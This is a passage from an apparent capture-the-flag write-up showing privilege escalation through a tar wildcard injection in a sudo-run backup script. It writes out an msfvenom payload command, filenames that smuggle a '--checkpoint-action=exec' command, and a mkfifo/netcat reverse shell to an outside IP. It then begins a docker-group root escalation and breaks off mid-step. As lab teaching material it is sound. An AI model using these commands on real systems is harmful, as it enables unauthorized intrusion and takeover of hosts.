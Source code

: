 - **Vulnerability**: The `*` wildcard in `tar cf /opt/backups/backup.tar *` is dangerous. If we control the files in the directory where the script runs, we can inject malicious filenames to execute code.

Let's do the following:

```
# Let's begin by generating a netcat reverse shell using msfvenom
msfvenom -p cmd/unix/reverse_netcat lhost=IP lport=PORT R

# We can then proceed to exploit the wildcard

mkdir /tmp/exploit
cd /tmp/exploit
touch -- '--checkpoint=1'
touch -- "--checkpoint-action=exec=sh shell.sh"
echo '#!/bin/bash' > shell.sh
echo "mkfifo /tmp/gaipsa; nc 10.6.34.159 9001 0</tmp/gaipsa | /bin/sh >/tmp/gaipsa 2>&1; rm /tmp/gaipsa" >> shell.sh # Replace this with the contents that the msfvenom gave you.

# Set up the listener
nc -lvnp PORT

# Give permissions to both backup.tar and shell.sh
chmod 777 /opt/backups/backup.tar shell.sh

# Use the command
sudo -u michael /opt/backups/backup.sh
```

If we reproduce these steps, we can notice this in our listener:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331170833.png)

We can stabilize our shell first:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331170920.png)

The `docker` group membership (GID 999) grants **root-equivalent privileges** on the host system. We can exploit this to escalate into root, let's search gtfobins:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331172216.png)

So, based on that, we can do the following:
